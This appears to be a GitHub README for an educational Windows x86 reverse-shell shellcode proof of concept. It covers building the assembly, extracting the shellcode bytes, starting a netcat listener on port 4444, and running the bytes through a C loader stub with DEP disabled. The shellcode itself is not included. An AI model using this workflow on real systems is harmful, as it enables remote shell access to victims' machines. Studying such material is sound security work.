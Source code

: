 # WinX86 Shellcode (Reverse Shell)
This POC was done for educational purpose and walkthrough to understand how windows shellcode is working and get insight about how to extract windows APIs from Dlls.

## Getting Started

These instructions will get you a copy of the POC files on your local system for purpose of testing the shellcode.

### Prerequisites
**To get the things work you have to download:**
* [MASM32 sdk](https://www.masm32.com/download.htm) - The Microsoft Assembler (commonly known as MASM)
* nmake  - It's used for building purpose and it's distributed with visual studio. 
* [python3](https://www.python.org/downloads/) - python3 interpreter.
* netcat - This simple utility reads and writes data across TCP or UDP network connections. 

### Usage
1.   Clone the repository:
```
git clone https://username@bitbucket.org/teamsinspace/documentation-tests.git
```
2. Open **makefile.txt** and change **masmPath** based on its location in your local machine:
```
masmPath= //your masm32 path
```
3. Open **Developer Command Prompt for VS** and execute following commands to build the **shellcode.asm** file to **shellcode.exe** file:
```
cd ProjectFolder path
nmake makefile.txt
```
4. To extract the shellcode bytes from **shellcode.exe** into output file called **shellcodebytes.txt** execute the following:
```
python3 shellcode_extractor.py shellcode.asm 
```

5. open **CMD** and make **netcat** listen on port what you have specified in shellcode.asm (the default is 4444):
```
nc -lvp 4444
```

6. create c or c++ project and disable **data execution prevention (DEP)** then write the following code:

```
char shellcode[] = "";	// copy shellcode from shellcodebytes.txt
char *ptr = new char[sizeof(shellcode)];
memcpy(ptr, shellcode, sizeof(shellcode));
((void(*)())ptr)();
```

### Testing environment
* The code was tested on **windows10**.


